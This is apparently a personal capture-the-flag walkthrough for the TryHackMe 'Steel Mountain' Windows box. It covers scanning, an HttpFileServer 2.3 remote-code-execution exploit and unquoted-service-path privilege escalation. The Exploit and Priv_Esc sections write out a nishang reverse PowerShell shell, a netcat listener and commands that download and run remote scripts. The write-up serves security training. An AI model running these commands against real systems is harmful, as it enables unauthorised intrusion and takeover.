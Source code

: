 # THM : Steel Mountain


```toc
```

---
---
---
---

## Machine Information

| Contents      | Description                        |
| ------------- | ---------------------------------- |
| Name          | HTB/THM : Steel Mountain           |
| Difficulty    | Easy                               |
| OS            | Windows                            |
| Shell_Exploit | HttpFileServer ( HFS ) RCE Exploit |
| Priv_Esc      | Unquoted Service Path Vul'n                         |
| Miscellaneous | Make sure to not fall into rabbit holes                               |

---
---
---

## Scanning
### Nmap
> There seems to be a lot of open ports
> > ![[Pasted image 20221116212258.png]]
> > - We have SMB open thats surely a vector
> > - Lets start with the HttpFileServer cuz it might be straight forward.
> > - What is ==HTTPAPI httpd 2.0 (SSDP/UPnP==?

---
---
---

## Enumeration
### Web Browser 

#### a. Robots.txt
***N/A***

---

#### b. Basic Website Enumerations/Spidering
> Main web-page exists
> > ![[Pasted image 20221116212026.png]]
> > - Lets see the page source for more info!!!
> 
> 2nd HTTP port open at 8080
> > ![[Pasted image 20221116212453.png]]
> > - HttpFileServer 2.3 miight be vul'n. Lets take this as our first attack vector.
> > - Lets start with the searchsploit search and if there isnt any hits then we'll do Online search and Metasploit.
> > - If none works then there mght not be any exploits publically available and in that case we ll have to move to another attack vector.

---

#### c. Source Code
> Well we can see that the person in the image is called *Bill Harper*. Three is nothing else to see here I guess.
> > ![[Pasted image 20221116211943.png]]

---
---

### Searchsploit/Online DBs

> Lets do a searchsploit search
> > ![[Pasted image 20221116212937.png]]
> > - This is why I said its straight forward.
> > - Lets look at the POC
> > > ![[Pasted image 20221116213404.png]]
> > > - Well the script is straight forward, lets use **nishang/shells/Invoke-PowerShellTcp.ps1** to spawn a reverse powershell and take it from there.
> > > - Hope all you guys have niighag with you. Copy it to the current directory and 

---
---

### Gobuster Scan
***N/A***

---
---

### Other Enumerations
***N/A***

---
---
---

## Exploit

### a. Attack Vector
> we ll be using the nishang/shells/Invoke-PowerShellTcp.ps1 along wiith the RCE script
> - ***Commands***
> > `cp nishang/shells/Invoke-PowerShellTcp.ps1 .`
> > `cp Invoke-PowerShellTcp.ps1 rev-shell.ps1`
> > `Invoke-PowerShellTcp -Reverse -IPAddress Kali_IP -Port Listen_PORT`  --> add this to the end of the file.
> > 

---
---

### b. Mode of Attack
> Nshang Powershell script and HttpFileServer exploiit script
> - ***Commands***
> > -  `nc lnvp 7799`
> > - `python3 HttpFileServer.py 10.10.167.156 8080 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.11.10.39:8000/rev-shell.ps1')"`
> > > ![[Pasted image 20221116214841.png]]
> > > ![[Pasted image 20221116214647.png]]
> 
> The user.txt flag
> > ![[Pasted image 20221116220034.png]]

---
---
---

## Priv_Esc

### a. Attack Vector
> Lets use powerUp to enumerate 
> - ***Commands***
> > - `cp /opt/PowerSploit/Privesc/PowerUp.ps1 .`
> > - `mv PowerUp.ps1 Pwr-Up.ps1`
> > - `python3 -m http.server`
> > - `IEX (New-Object Net.WebClient).DownloadString('http://10.11.10.39:8000/Pwr-Up.ps1')` **+** `Invoke-AllChecks`
> > - **OR**
> > - 

---
---

### b. Mode of Attack
> - Some basic Enumerations before going for the kill
> > - ![[Pasted image 20221116215755.png]]
> > > - lets keep this in mind
> 
> ***Vuln***
> - we Have 2 potentiial Candidates here
> > 1. *AdvancedSystemCareService9*
> > > ![[Pasted image 20221116221122.png]]
> > 2. *IObitUnSvr*
> > > ![[Pasted image 20221116221148.png]]
> > > - For CTF exploiting any of them will give you NT AUTHORTY\SYSTEM but in a penetratiin testing stand poiint, you have to check all of them. and record them systematically.
> 
> Lets check the details of the application wiith **sc query**
> > - `cmd.exe /c "sc qc IObitUnSvr"`
> > > ![[Pasted image 20221116225307.png]]
> > - `cmd.exe /c "sc qc AdvancedSystemCareService9"`
> > > ![[Pasted image 20221116225236.png]]
> 
> ***Lets Check the Permissions we have on the directories***
> > - `.\accessChk.exe /accepteula -uwc directory_name`
> > > Dont look deep into this cuz this **IObitUnSvr** is a rabbit hole, which is intentially made vul'n to throws the users into confusion.
> 
> 
> ***Fiinal Exploit***
> > - `cmd.exe /c "sc stop AdvancedSystemCareService9"`
> > - `cmd.exe /c "sc start AdvancedSystemCareService9"`
> > > ![[Pasted image 20221116225142.png]]
> > 
> > - `cmd.exe /c "sc stop IObitUnSvr"`
> > > ![[Pasted image 20221116225210.png]]




